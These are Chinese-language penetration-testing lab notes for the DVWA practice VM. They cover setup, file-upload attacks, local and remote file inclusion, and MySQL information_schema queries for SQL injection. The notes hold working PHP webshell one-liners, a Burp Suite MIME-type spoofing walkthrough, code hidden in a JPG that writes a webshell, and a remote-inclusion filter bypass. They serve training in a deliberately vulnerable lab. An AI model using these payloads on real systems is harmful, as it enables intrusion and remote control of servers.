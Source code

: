 ﻿# 网络安全

> 靶机下载地址:  
>
> https://sourceforge.net/projects/owaspbwa/files/1.2/OWASP_Broken_Web_Apps_VM_1.2.zip/download 
>
> 攻击机下载地址: 下载VMware版本
>
>  https://www.kali.org/downloads/  

> 靶机启动后会自动开启一些有漏洞的web项目服务, 直接访问靶机地址可访问这些项目

> 靶机和攻击机首次启动后要 dhclient -r eth0 释放网卡上绑定的ip地址, 然后 dhclinet eth0 重新获取ip
>
> 如果获取不到 ip , vmware -> 编辑 -> 虚拟网络编辑器 -> 还原默认值设置
>
> 如果还是获取不到ip , 计算机的服务 -> 打开vmware相关服务



#### robots.txt

> 放到网站根目录下, 用来告诉搜索引擎哪些路径可以爬取, 哪些路径不可爬取, 
>
> 但是同时也暴露了本网站的目录结构



#### 文件上传漏洞渗透

![](文件上传马.png)

###### 低安全级别 

> 无任何上传验证

1. 访问靶机中的 Damn Vulnerable Web Application 项目, 账密 admin/admin

2. 点击进入 upload 页面

3. 在默认的低安全级别下, 上传php文件

   ```php
   <?php @eval($_POST['chopper']);?>
   ```

   

4. 在中国菜刀中添加靶机中该php文件的地址 `<ip>/dvwa/hackable/uploads/xxx.php` , 和密码为 chopper

5. 使用中国菜刀可直接操作靶机

6. 靶机中文件上传的位置为 /var/www/dvwa/hackable/uploads

###### 中安全级别

> 验证请求头中 文件的mime类型 和大小

> burpsuite 可以做代理, 先将请求发给它, 然后修改请求头的mime类型再转发出去, 从而破解后台的文件类型验证
>
> kali 自带了 burpsuite

1. 在kali中进入burpsuite -> 启动一个项目 -> 使用默认参数 -> option设置谁可以使用它来代理, 默认就是本机
2. 在 burpsuite -> proxy -> intercept is on 设置拦截请求
3. 在kali中进入 火狐浏览器 -> 设置 -> advanced -> network -> connection -> settings -> manual proxy configuration -> 输入本机的8080为代理服务 
4. 将 dvwa 的安全级别调成 中
5. 进入 upload 页面, 上传上面那个php文件 , 此时因为请求被代理拦截, 所以一直显示正在加载
6. 在 burpsuite的 proxy 可查看到被拦截的请求, 手动将请求头中改为 Content-type : image/jpeg , 然后点击 forward转发请求, 因为改了请求头的mime类型, 所以后台文件类型验证不会拦截
7. 文件上传成功则可使用菜刀进行远程控制

###### 高安全级别

> 验证文件扩展名
>
> 通过文件包含漏洞可破解



#### 文件包含漏洞

> php服务器开启了 allow_url_include 选项, 该选项在 php 配置文件中查看 ,即允许远程包含文件, 同时在php的包含检校中又没有做包含文件类型的验证
>
> 此时就可以通过修改url路径中的包含文件 , 远程包含攻击机上的恶意文件 , 在恶意文件中加入生成 php类型 的 webshell 文件 的代码, 在被包含时就会执行并在靶机上生成webshell 文件, 然后就可以使用菜刀远程连接控制
>
> dvwa 上的 file inclusion 

##### 低安全级别

###### 本地文件包含

> 无任何包含文件检校
>
> 这种方式实际上就是在破解上面 文件上传漏洞 的高安全级别

1. 先找一个 xxx.jpg , 使用 edjpgcom 工具 (吾爱破解下载) 修改图片文件, 添加 生成webshell的代码

   ```php
   <?fputs(fopen("shell20.php","w"),'<?php eval($_POST[xxx]);?>')?>
   ```

   

2. 将该 jpg 文件通过上面那个 文件上传功能 上传到攻击机上

3. 打开 文件包含 页面, 修改url路径中的page参数为刚才上传图片的相对路径并访问, 然后网页会执行该 图片中的代码, 生成 webshell 文件

4. 使用菜刀连接进行远程控制 

###### 远程文件包含

1. 随便找个机器开启一个服务, 然后在里面添加一个 txt 文件 , 这个txt里面就写生成 webshell 文件的代码
2. 在文件包含页面设置 page 参数为 远程文件的路径 , 格式大概是 `http://<ip>:<端口>/<文件路径>` 即可直接执行txt中的代码生成 webshell
3. 使用菜刀连接控制



##### 中安全级别

> 限制了远程文件包含, 将 https:// 或 https:// 改为 空
>
> 那么对于本地文件包含的入侵是没有影响的, 
>
> 对于远程文件包含, 设置的 url 应当改为 `httphttp://://ip:端口/文件路径`



##### 高安全级别

> 只能包含指定名字的文件
>
> 没有办法破解





#### SQL注入

> mysql 数据库中有一个名字为 information_schema 的库, 这个库以表的形式存放整个数据库中其他库和表的所有信息
>
> select * from information_schema.TABLES\G 查看数据库中所有的表信息
>
> select DISTINCT TABLE_SCHEMA from information_schema.TABLES\G 查看数据库中所有的库名
>
> select * from information_schema.columns\G 查看数据库中所有的列信息